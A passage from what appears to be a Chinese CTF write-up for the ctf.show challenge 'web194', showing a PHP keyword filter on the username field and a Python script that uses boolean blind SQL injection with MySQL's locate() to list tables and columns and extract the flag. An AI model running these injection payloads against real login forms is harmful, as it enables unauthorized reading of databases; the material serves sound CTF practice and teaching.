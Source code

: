 
## web194~locate布尔盲注

> ```
> if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```

直接上题的脚本就可以跑出来。

其他方法，利用 mysql定位函数`locate`

```python
# Author: yanmie

import requests

url = "http://ad1cf08f-6278-4479-9deb-48c4ce9449a9.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}_,"

# 查询字段中内容
def get_dump():
    # payload = "0'or(if((locate('{}',(select group_concat(table_name) from information_schema.tables where table_schema=database())))=1,1,0))='1"
    # 得到 ctfshow_flxg,ctfshow_user
    # payload = "0'or(if((locate('{}',(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg')))=1,1,0))='1"
    # 得到 id,f1ag
    payload = "0'or(if((locate('{}',(select f1ag from ctfshow_flxg limit 0,1)))=1,1,0))='1"
    dump = ""
    while True:
        for j in flag:
            dump += j
            data = {
                "username": payload.format(dump),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # print(j,data)
            if "密码错误" in response.json()['msg']:
                # dump += j
                print(dump)
                if "}" in dump:
                    return dump
                break
            else:
                dump = dump[:-1]


if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)
```

